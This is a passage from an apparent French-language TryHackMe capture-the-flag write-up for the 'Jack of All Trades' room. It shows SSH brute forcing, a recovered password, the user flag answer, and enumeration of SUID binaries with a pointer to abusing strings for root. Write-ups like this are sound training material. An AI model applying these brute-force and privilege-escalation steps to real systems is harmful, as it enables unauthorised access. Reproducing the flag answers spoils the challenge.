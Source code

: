 On met les mots de passe dans un fichier puis on brute force la session SSH.   
Utilisateur : jack  
Mot de passe : ITMJpGGIqg1jn?>@  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh jack@jackofalltrades.thm -p 80
The authenticity of host '[jackofalltrades.thm]:80 ([10.10.243.32]:80)' can't be established.
ECDSA key fingerprint is SHA256:wABOsY4G6TIcuJ2bmAIpsoBGVR06p/QGP2J7tfiSy2s.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[jackofalltrades.thm]:80,[10.10.243.32]:80' (ECDSA) to the list of known hosts.
jack@jackofalltrades.thm's password:
jack@jack-of-all-trades:~$ ls
user.jpg

tim@kali:~/Bureau/tryhackme/write-up$ scp -P 80 jack@jackofalltrades.thm:./user.jpg ./
jack@jackofalltrades.thm's password: 
user.jpg                                                                                                                                                                                                    100%  286KB   1.3MB/s   00:00
```

**User Flag**

On se connect sur la session ssh, on voit un fichier user.jpg.   
Je récupère le fichier user.jpg.  
On l'affiche et on trouve le flag.   

Réponse : securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}   


**Root Flag**

```bash
jack@jack-of-all-trades:~$ find / -perm -4000 2>/dev/null 
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/pt_chown
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/strings
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/procmail
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
```

On regarde les fichiers setuid.  
D'après [gtfobins](https://gtfobins.github.io/gtfobins/strings/), on peut exploiter strings.  
